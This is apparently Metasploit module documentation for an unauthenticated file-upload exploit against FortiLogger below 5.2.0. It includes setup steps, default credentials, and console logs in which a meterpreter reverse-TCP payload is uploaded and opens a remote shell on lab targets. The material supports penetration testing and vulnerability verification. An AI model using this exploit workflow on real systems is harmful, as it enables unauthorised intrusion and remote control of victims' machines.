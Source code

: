 ## Vulnerable Application

FortiLogger is a web-based logging and reporting software designed specifically for FortiGate firewalls,
running on Windows operating systems. It contains features such as instant status tracking, logging, search / filtering,
reporting and hotspot.

This module exploits an unauthenticated arbitrary file upload via insecure `POST` request on company logo upload
for hotspot settings of FortiLogger < 5.2.0.

You can download installation files from https://www.fortilogger.com/download

*Vendor has removed version 4.4.2.2 from web page of vendor for download.
You can download version 4.4.2.2 from https://github.com/erberkan/erberkan.github.io/raw/master/2021/cve-2021-3378/Fortilogger-4.4.2.zip*

Tested versions:

- 4.4.2.2
- 3.6.2.9
- 3.4.1.7

### Prerequisites

1. Start a Windows VM *(Tested on Windows 10 Enterprise)*
2. Install a vulnerable version which is any version less then 5.2.0 of FortiLogger via above url.
3. After installation, verify that the server is working by visiting it with a browser.
   - Default port: 5000
   - Default username:password - admin:admin


## Verification Steps

1. Install the application
1. Start msfconsole
2. Do: `use exploit/windows/http/fortilogger_arbitrary_fileupload`
3. Set `RHOSTS`
4. Do: `run` or `exploit`
5. **Verify** that `The target is vulnerable. FortiLogger version [version number]` message appeared
6. **Verify** that payload uploaded to target system successfully: `Payload has been uploaded`
7. **Verify** that you getting a meterpreter session.

## Options

1.  `RHOSTS`. IP address or FQDN of target system that is FortiLogger < 5.2.0 is running on it.
2.  `RPORT`. Default port number is `5000`.


## Scenarios

```
msf6 > use exploit/windows/http/fortilogger_arbitrary_fileupload 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > show options 

Module options (exploit/windows/http/fortilogger_arbitrary_fileupload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.43     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the FortiLogger
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.46     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   FortiLogger < 5.2.0

```
### Version 4.4.2.2

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 4.4.2.2
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.46:4444 -> 192.168.1.43:49771) at 2021-03-02 14:05:53 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### Version 3.6.2.9

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 3.6.2.9
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.46:4444 -> 192.168.1.43:49764) at 2021-03-02 14:17:59 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### Version 3.4.1.7

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 3.4.1.7
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 3 opened (192.168.1.46:4444 -> 192.168.1.43:49791) at 2021-03-02 14:39:04 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### If target is not accessible

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unreachable: No response from server
[*] Exploit completed, but no session was created.
```

### If target has version 5.2.0 or newest

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unexpected-reply: The target may have been updated
[*] Exploit completed, but no session was created.
```

## Reference
1. https://erberkan.github.io/2021/cve-2021-3378/
